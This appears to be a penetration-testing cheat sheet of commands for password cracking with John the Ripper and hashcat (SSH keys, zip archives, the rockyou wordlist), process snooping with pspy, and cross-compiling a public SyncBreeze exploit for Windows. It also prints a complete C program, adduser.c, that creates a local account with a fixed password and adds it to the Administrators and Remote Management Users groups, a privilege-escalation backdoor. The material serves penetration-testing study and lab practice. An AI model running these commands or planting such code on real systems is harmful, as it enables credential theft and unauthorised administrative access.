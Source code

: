### John The Ripper
**john**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt offsec.hash

# Display already discovered hash
john hashname --show
```

**ssh2john**
```bash
$ ssh2john anita_id_rsa > ssh_key
$ hashcat -m 22911 ./ssh_key /usr/share/wordlists/rockyou.txt --force
```

**zip2john**
```bash
First check manually if it's password protected or not
zip2john sitebackup3.zip > zip.hash
```

### pspy
```bash
./pspy64 -pf -i 1000
```

### Cross Compiling
```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
#  when the linker cannot find the winsock library
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32



############## adduser.c ####################################
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuri password123! /add");
  i = system ("net localgroup administrators nuri /add");
  i = system ("net localgroup 'Remote Management Users' nuri /add");
  
  return 0;
}
#############################################################

# Cross compile adduser.c code to 64-bit applcation
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

```
